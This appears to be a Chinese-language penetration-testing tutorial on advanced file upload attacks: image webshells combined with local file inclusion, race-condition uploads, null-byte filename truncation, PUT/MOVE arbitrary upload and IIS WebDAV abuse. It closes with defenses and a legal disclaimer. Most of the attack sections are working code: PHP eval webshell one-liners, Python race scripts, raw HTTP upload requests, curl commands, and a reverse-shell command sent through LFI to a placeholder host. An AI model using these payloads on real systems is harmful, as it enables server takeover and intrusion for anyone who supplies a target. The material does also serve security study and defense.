

## 引言

文件上传功能几乎是所有 Web 应用的标配——头像上传、附件提交、报表导入，处处可见。然而，一个看似简单的 `<input type="file">` 背后，隐藏着攻击者最钟爱的突破口。一旦文件上传点失守，轻则服务器沦为矿机，重则整个内网被打穿。

本文从攻击者视角，系统梳理文件上传漏洞的五种高级利用手法：**图片马配合本地文件包含（LFI）**、**条件竞争写入**、**文件名截断绕过**、**PUT 方法任意上传**，以及 **IIS 7.5+ WebDAV 利用**。读者应能理解每种手法的底层原理，并在实战或防御建设中加以运用。

---

## 核心概念

### 图片马（Image Webshell）

攻击者将恶意代码嵌入合法的图片文件，使其在图片浏览器中正常显示，但被 PHP/JSP/ASPX 解析时执行代码。常见嵌入方式：

- **GIF89a 头部填充**：GIF 以 `GIF89a` 开头，PHP 解释器跳过前方二进制数据，直接执行 `<?php ... ?>` 标记内代码。
- **EXIF 字段注入**：JPEG 的 `Comment`、`Artist` 等 EXIF 字段可容纳任意字符串，通过文件包含触发。
- **IDAT 块隐藏**：PNG 像素数据末尾追加 PHP 代码，不影响图像渲染。

### 条件竞争（Race Condition）

服务端文件上传通常执行"**写入临时文件 → 检查合法性 → 合法则移动，不合法则删除**"的串行流程。攻击者利用检查和删除之间的时间窗口，并发请求临时文件，抢在删除前访问，或抢在重命名前写入新内容。

---



---

## 攻击手法一：图片马 + LFI 组合攻击

### 攻击链

单独上传图片马通常无法直接执行——现代 Web 服务器不会将 `/uploads/shell.jpg` 交给 PHP 解析。但当应用存在**本地文件包含（LFI）**漏洞时，攻击链闭合：

```
图片马上传 → /uploads/shell.jpg 存在但不可解析
          → /index.php?page=../uploads/shell.jpg
          → PHP include() 解析图片中的代码 → 反弹 Shell
```

### 制作图片马

```bash
# 制作 GIF 一句话木马
echo 'GIF89a<?php @eval($_REQUEST["cmd"]);?>' > shell.gif

# 使用 exiftool 在 JPEG 中注入代码
exiftool -Comment='<?php @eval($_POST["x"]);?>' photo.jpg -o shell.jpg
```

### 关键限制与绕过

| 限制 | 绕过思路 |
|------|----------|
| LFI 后缀拼接 `include($file . ".php")` | `%00` 截断（PHP <5.3.4）、路径长度截断 |
| LFI 路径过滤 `../` | 双写 `....//`、URL 编码 `..%252f` |
| `open_basedir` 限制 | 寻找允许目录内的上传点 |
| JPG 二次渲染擦除代码 | 改用 GIF：GIF 无二次渲染，代码可直接追加在末尾 |

---

## 攻击手法二：条件竞争上传

### 场景 A：PHP 临时文件竞争

PHP 将上传文件写入临时目录（如 `/tmp/phpXXXXXX`），请求结束后自动清理。攻击者多线程轮询 `/proc/self/fd/` 或暴力猜测临时文件名，在删除前访问：

```python
import requests, threading

def race_upload(url, files):
    while True:
        for i in range(1000):
            r = requests.get(f"{url}?file=/tmp/php{i:06X}")
            if r.status_code == 200 and len(r.text) > 10:
                print(f"[+] HIT: php{i:06X}"); return

threading.Thread(target=lambda: requests.post(url, files=files)).start()
threading.Thread(target=race_upload, args=(url, files)).start()
```

### 场景 B：Tomcat JSP 并发写入竞争

Tomcat 应用将文件流式写入磁盘时，若未对完整文件做校验，攻击者在大文件写入过程中发起并发请求，访问一个正在被写入的 JSP。Tomcat 对 `.jsp` 首次访问触发编译，若文件内容尚不完整，后续请求仍可解析到已写入的恶意片段。

### 场景 C：Apache 条件竞争 + 符号链接

上传目录开启 `FollowSymLinks` 时，检查完成后、移动完成前的窗口内，将临时文件替换为指向 `/etc/passwd` 的符号链接（需已有本地代码执行），实现任意文件读取。

### 通用竞争脚本

```python
import concurrent.futures, requests

def upload(i):
    with open("shell.jsp", "rb") as f:
        return requests.post("http://target/upload", files={"file": f})

def access(i):
    return requests.get(f"http://target/uploads/shell{i}.jsp")

with concurrent.futures.ThreadPoolExecutor(50) as ex:
    tasks = [ex.submit(upload if j % 2 else access, j) for j in range(200)]
    for f in concurrent.futures.as_completed(tasks):
        if f.result().status_code == 200:
            print("[!] Potential shell accessed!")
```

---

## 攻击手法三：文件名截断（Null Byte `%00`）

### 原理

PHP 5.3.4 之前，C 字符串以 `\x00` 作为终止符。HTTP 请求传入的文件名经 URL 解码后，`%00` 之后的内容被 C 库直接截断：

```
上传文件名:  shell.php%00.jpg
服务端拼接:  /uploads/shell.php\x00.jpg
底层写入:    /uploads/shell.php          ← .jpg 被截断！
```

### 利用方式

```http
POST /upload.php HTTP/1.1
Content-Disposition: form-data; name="file"; filename="shell.php%00.jpg"
Content-Type: image/jpeg

<?php @eval($_POST['cmd']);?>
```

`pathinfo()` 取扩展名返回 `.jpg`（通过白名单），而 `move_uploaded_file()` 写入时被截断为 `shell.php`。

### 适用场景

- **PHP <= 5.2**：直接可用。
- **PHP 5.3 ~ 5.3.3**：`%00` 在部分函数中仍有效。
- **嵌入式 / IoT 设备**：老旧 PHP 版本仍广泛存在。
- **替代思路**：超长文件名截断（Windows 260 字符、Linux 255 字节限制）。

---

## 攻击手法四：PUT 方法任意上传

### 原理

`PUT` 方法用于向指定路径写入请求体内容。部分中间件错误暴露了此能力：

```http
PUT /uploads/shell.txt HTTP/1.1
Host: target.com
Content-Length: 31

<?php @system($_GET['c']);?>
```

返回 `201 Created` 后，用 **MOVE** 将 `.txt` 重命名为 `.php`：

```http
MOVE /uploads/shell.txt HTTP/1.1
Host: target.com
Destination: http://target.com/uploads/shell.php
```

### 受影响组件

| 组件 | 条件 |
|------|------|
| Apache httpd | `mod_dav` + `Dav On` 配置 |
| Tomcat | `DefaultServlet` 的 `readonly=false` |
| IIS 7.5+ | WebDAV 模块启用 |
| Nginx | `dav_methods PUT` 指令启用 |

### Tomcat PUT 探测

```bash
curl -X PUT http://target:8080/test.jsp -d '<% out.println("pwned"); %>'
# 201 Created → 存在漏洞
curl http://target:8080/test.jsp
# 输出 "pwned" → 解析成功
```

---

## 攻击手法五：IIS 7.5+ WebDAV 利用

### 简述

WebDAV 是 HTTP 扩展协议，允许客户端远程管理服务器文件。IIS 7.5 起将其作为独立模块发布，企业内网文件共享服务器常将其开启，形成攻击面。

### 探测与利用

```bash
# OPTIONS 探测
curl -X OPTIONS http://target.com/ -v 2>&1 | grep -i "allow"
# 返回 PUT、PROPFIND、MKCOL → WebDAV 可用

# 先 PUT txt，再 MOVE 为脚本文件
curl -X PUT http://target/uploads/cmd.txt -d '<% Response.Write("ok") %>'
curl -X MOVE http://target/uploads/cmd.txt \
  -H "Destination: http://target/uploads/cmd.aspx"
```

### IIS 历史解析漏洞配合

- **IIS 6.0**：`/uploads/shell.asp;.jpg` 被解析为 ASP。
- **IIS 7.5**：`/uploads/shell.jpg/.php` 通过 FastCGI `PATH_INFO` 交给 PHP。

这些漏洞配合 WebDAV PUT，曾在 2015-2018 年间被 APT 组织广泛利用。

### 条件竞争（IIS 特化）

IIS WebDAV 处理大文件时在 `%TEMP%` 下创建临时文件分段写入。攻击者可在写入期间并发 GET，抢在校验完成前获取访问：

```python
import requests, threading

def put_stream(url):
    with open("bigfile.bin", "rb") as f:
        requests.put(url, data=f)

def race_get(url):
    while True:
        r = requests.get(url)
        if r.status_code == 200:
            print(f"[+] {r.status_code}, Size: {len(r.content)}")

t1 = threading.Thread(target=put_stream, args=("http://target/webdav/shell.aspx",))
t2 = threading.Thread(target=race_get, args=("http://target/webdav/shell.aspx",))
t1.start(); t2.start()
```

---

## 综合攻击链演示

```
信息收集
  ├─ 端口扫描: 8080 (Tomcat)、80 (IIS)
  ├─ OPTIONS 探测: IIS 开启 WebDAV + PUT
  └─ 某子域名存在文件上传 + LFI

攻击阶段
  ├─ [1] 制作 GIF 图片马
  ├─ [2] 上传到 /upload/avatar/2025/07/shell.gif
  ├─ [3] LFI 触发: ?page=../upload/avatar/2025/07/shell.gif
  ├─ [4] 获取低权限 Webshell (www-data)
  ├─ [5] WebDAV PUT 写 Webshell 至内网高权限目录
  ├─ [6] 提权并横向移动
  └─ [7] 持久化
```

### 关键命令

```bash
# 制作 GIF 图片马
printf 'GIF89a\x0A\x00\x0A\x00<?php @eval($_REQUEST["pass"]);?>' > avatar.gif

# 上传绕过 MIME 检查
curl -X POST http://target/upload.php \
  -F "file=@avatar.gif;type=image/gif"

# LFI 触发反弹 Shell
curl "http://target/index.php?lang=../upload/avatar.gif&pass=system('bash -i >& /dev/tcp/IP/4444 0>&1');"

# WebDAV 横向写入 ASPX
curl -X PUT http://other-server/webdav/cmd.aspx \
  -d '<%@ Page Language="C#" %><% System.Diagnostics.Process.Start("cmd.exe","/c whoami > C:\\inetpub\\wwwroot\\pwn.txt"); %>'
```

---

## 防御措施

### 开发层面

| 措施 | 说明 |
|------|------|
| **白名单扩展名** | `in_array()` 比对列表，绝不用黑名单 |
| **随机文件名** | 服务端生成 UUID 文件名，去除用户可控字符 |
| **文件头校验** | 读取 Magic Bytes 与扩展名做一致性验证 |
| **二次渲染** | GD/ImageMagick 重新编码图片，剥离非图像数据 |
| **独立文件服务** | 上传目录与代码目录物理隔离，静态文件不经脚本解析 |
| **禁用危险方法** | 显式禁用 PUT、DELETE、MOVE 等 HTTP 方法 |

### 架构层面

```
用户请求 → API Gateway (签名直传) → OSS/CDN (静态域名)
                                            │
                                    无脚本解析环境
```

- 使用对象存储 + STS 临时凭证直传，上传流量完全绕过业务服务器。
- 静态资源使用独立域名（如 `static.example.com`），绝不解码 PHP/JSP/ASPX。
- 为上传目录配置 `.htaccess` / `web.config`，显式关闭脚本引擎。

### 运行时防御

- **WAF**：拦截异常 Multipart 请求体、双重扩展名、`%00` 等模式。
- **RASP**：检测 `eval()`、`proc_open()`、`Runtime.getRuntime().exec()` 等危险调用。
- **EDR**：监控 Web 目录下新增的 `.php`、`.jsp`、`.aspx` 文件并实时告警。

---

## 免责声明

**本文仅供安全研究和授权测试参考。**

文中所有技术、工具和代码仅用于学习文件上传漏洞的原理与防御方法。未经授权的渗透测试、入侵行为均属违法。读者应确保所有测试均在本人拥有合法权限的环境中进行，或已获得目标所有者的书面授权。作者不对因滥用文中技术而导致的任何法律后果承担责任。

---

## 参考

- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- PortSwigger Web Security Academy — File Upload Labs
- Apache Tomcat DefaultServlet Configuration Reference
- Microsoft IIS WebDAV Module Documentation
